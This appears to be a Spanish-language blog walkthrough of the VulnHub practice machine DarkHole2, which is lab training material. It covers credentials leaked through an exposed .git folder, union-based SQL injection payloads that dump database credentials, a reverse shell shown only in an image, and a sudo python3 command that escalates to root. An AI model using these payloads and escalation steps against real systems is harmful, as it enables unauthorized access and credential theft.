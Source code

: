 ```yaml
---
layout: single
title: DarkHole2 - VulnHub
date: 2023-09-04
classes: wide
header:
  tease: 
categories:
  - Vulnhub
  - Easy
tags:
  - Vulnhub
  - Sqli
  - Bash history
  - Sudoers abuse
  - GitHub information leakage
---
```


 ![](../assets/images/DarkHole2/DarkHole2.png)

# Fase de reconocimiento
---
Empezamos realizando un escaneo con `arp-scan` a la red para averiguar la IP de la máquina:
 
![](../assets/images/DarkHole2/arpScan.png)

Ahora realizamos un `ping` a la máquina para ver si nos responde.
Vemos que el *TTL* es *64* lo que nos indica que es una máquina **Linux**

![](../assets/images/DarkHole2/ping.png)

Empezamos ahora el reconocimiento de los puertos utilizando `nmap`, primero
escaneamos todo el rango de puertos.

![](../assets/images/DarkHole2/nmapAllPorts.png)

Ahora sobre estos puertos, hacemos un escaneo más profundo para detectar versión y servicio.
Vemos que `nmap` detecta que hay un repositorio git bajo la ruta `192.168.1.37:80/.git`

![](../assets/images/DarkHole2/nmapTargeted.png)

# Fase de explotación
---
## GitHub información expuesta
Investigando en el repositorio, encuentro los commits que se han ido haciendo.
Llama la atención el segundo commit, donde dice que ha puesto las credenciales por defecto en el `login.php`.

![](../assets/images/DarkHole2/gitLogs.png)

Nos traemos el repositorio a nuestra máquina con `wget -r <ruta>` para trabajar mejor y ahora dentro del repositorio hacemos `git show <hash_commit>` para ver los cambios que se han realizado en ese commit.
Con esto obtenemos el email `lush@admin.com` y la password `321` que nos sirven para hacer login en `login.php`.

![](../assets/images/DarkHole2/gitCredentials.png)
![](../assets/images/DarkHole2/loginPHP.png)

## SQLI

Después de hacer login, examindo esta nueva página, vemos que se produce un la SQL bajo el parámetro `id`.

![](../assets/images/DarkHole2/Sql1.png)

Una vez que hemos detectado que se produce un SQLI, dectamos el número de columnas que se están representando utilizando `order by` para después ir mostrando información de la base de datos. En este caso es *6*.

![](../assets/images/DarkHole2/Sql2.png)

El siguiente paso es mostrar las bases de datos que existen. En este caso utilizamos `group_concat()` para agrupar toda la salida en una sola columna y así poder verla en la web. (Hacer url encode en la query para que no haya problemas).

```sql
2'union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata-- -
```

Después obtenemos las tablas que hay en la base de datos `darkhole_2`.

```sql
2'union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables-- -
```

Ahora obtenemos las columnas de la tabla `ssh`

```sql
2'union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema='darkhole_2' and table_name='ssh'-- - 

```

Finalmente mostramos la información de las columnas para la tabla `ssh`

```sql
2'union select 1,group_concat(id,user,":",pass),3,4,5,6 from ssh -- -
```

Llegados a este punto obtenemos el usuario `jehad` y la contraseña `fool` que podremos utilizar para conectarnos por `ssh` a la máquina.

# Escalada de privilegios
---

Una vez concetados a la máquina como el usuario `fool`, vamos a hacer un reconociemintoutilizando la herramienta [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).
Vemos que bajo la ruta `/opt/web` el usuario `losy` esta proporcionando un servidor web por el puerto `9000`. Además inspeccionando el archivo `index.php` vemos que se pueden ejecutar comandos a través del parámetro `cmd` en la url.

![](../assets/images/DarkHole2/indexphp.png)

Como tenemos ejecución de comandos bajo el usuario `losy`, entablamos una **Reverse shell**.

![](../assets/images/DarkHole2/RStoLosy.png)

## Escalada a Root

Observando el `.bash_history` de `losy` encontramos una posible credencial.

![](../assets/images/DarkHole2/history.png)

Ahora con la credencial podemos mirar si podemos ejecutar algún binario con `sudo`, para ello, ejecutamos `sudo -l`. Vemos que podemos ejecutar `python3` como si fuesemos `root`

![](../assets/images/DarkHole2/sudol.png)

Ahora convertirse en `root` es tarea sencilla, simplemente ejecutamos `sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'` y ya estaríamos como `root`.

![](../assets/images/DarkHole2/root.png)





